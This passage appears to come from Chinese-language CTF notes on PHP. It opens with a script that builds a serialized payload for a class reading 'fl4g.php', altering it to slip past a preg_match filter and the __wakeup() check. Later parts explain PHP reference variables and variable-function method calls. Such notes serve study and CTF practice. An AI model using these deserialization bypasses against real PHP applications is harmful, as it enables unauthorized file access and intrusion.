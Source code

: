 ```php
<?php 
class Demo { 
    private $file = 'fl4g.php';
}

$x= serialize(new Demo);
$x=str_replace('O:4', 'O:+4',$x);//绕过preg_match()
$x=str_replace(':1:', ':3:',$x);//绕过__wakeup()
echo base64_encode($x);
?>
```



## 绕过特定变量赋值

- 引用变量


```php
<?php
$b = 2;
$a = &$b;

echo '$b:'.$b.'$a:'.$a."\n";

$a=1;
echo '$b:'.$b.'$a:'.$a."\n";

$b =2;
echo '$b:'.$b.'$a:'.$a."\n";
```

![image-20221026153815014](../images/image-20221026153815014.png)

> 在php里&相当于两个变量都指向同一个地址，修改一个会影响到另一个。



## 通过可变函数调用类方法

```php
<?php
class A {
    public static function test() {
        echo "hello a\n";
    }
}

$a = 'A::test'; // 调用 A 的 test 静态方法
$a(); 

$a = [new a(), 'test'];
$a(); // 调用 A 的 test 静态方法

call_user_func($a); // 调用 A 的 test 静态方法

?>
```

![image-20231026200915540](../images/image-20231026200915540.png)